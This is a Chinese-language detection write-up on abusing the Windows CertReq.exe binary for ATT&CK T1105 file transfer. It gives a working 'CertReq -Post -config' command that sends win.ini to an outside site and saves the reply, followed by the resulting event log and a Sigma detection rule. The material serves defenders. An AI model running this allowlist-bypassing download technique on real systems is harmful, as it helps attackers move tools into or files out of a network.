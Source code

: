 # T1105-win-入口工具转移-CertReq.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例
CertReq.exe用于从证书颁发机构请求证书 (CA) ，从CA检索对以前的请求的响应，从.inf文件创建新请求，以接受和安装对请求的响应，以从现有CA证书或请求构造交叉认证或限定的次序请求， 并签署交叉认证或限定的下级请求。

**路径:**
```
- C:\Windows\System32\certreq.exe
- C:\Windows\SysWOW64\certreq.exe
```

将来自www.baidu.com的HTTP POST的响应内容保存到端点上，输出output.txt在当前目录中。
```
CertReq -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows Vista、Windows 7、Windows 8、Windows 8.1、Windows 10
## 检测日志

windows安全日志

## 测试复现

```
C:\Users\liyang\Desktop\asptest>CertReq -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
OK
HTTP/1.1 200 OK
Cache-Control: max-age=86400
Date: Mon, 18 Apr 2022 06:28:15 GMT
Content-Length: 19825
Content-Type: text/html
Expires: Tue, 19 Apr 2022 06:28:15 GMT
Last-Modified: Wed, 10 Mar 2021 06:27:44 GMT
Accept-Ranges: bytes
ETag: "4d71-5bd28c3bf7800"
P3P: CP=" OTI DSP COR IVA OUR IND COM "
Server: Apache
Set-Cookie: BAIDUID=4305E8F795AE7B64177F5105CD755190:FG=1; expires=Tue, 18-Apr-23 06:28:15 GMT; max-age=31536000; path=/; domain=.baidu.com; version=1
Vary: Accept-Encoding,User-Agent
```

## 测试留痕
```
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x1778

新进程名称: C:\Windows\System32\certreq.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x24b4

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: CertReq  -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
```
## 检测方法/思路
参考Sigma官方规则:
```yml
title: Suspicious Certreq Command to Download

id: 4480827a-9799-4232-b2c4-ccc6c4e9e12b

status: experimental

description: Detects a suspicious certreq execution taken from the LOLBAS examples, which can be abused to download (small) files

author: Christian Burkard

date: 2021/11/24

references:

- https://lolbas-project.github.io/lolbas/Binaries/Certreq/

logsource:

category: process_creation

product: windows

detection:

selection:

Image|endswith: '\certreq.exe'

CommandLine|contains|all:

- ' -Post '

- ' -config '

- ' http'

- ' C:\windows\win.ini '

condition: selection

fields:

- CommandLine

- ParentCommandLine

tags:

- attack.command_and_control

- attack.t1105

falsepositives:

- Unlikely

level: high

-   [](https://github.com/ "GitHub")

```

### 建议
从Sigma给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。
## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

CertReq.exe

<https://lolbas-project.github.io/lolbas/Binaries/Certreq/>

certreq使用方法

<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/certreq_1>

Sigma:win_susp_certreq_download

<https://github.com/SigmaHQ/sigma/blob/eb8c9c046b86e7d412bdcc3235693fa1c00f70d6/rules/windows/process_creation/win_susp_certreq_download.yml>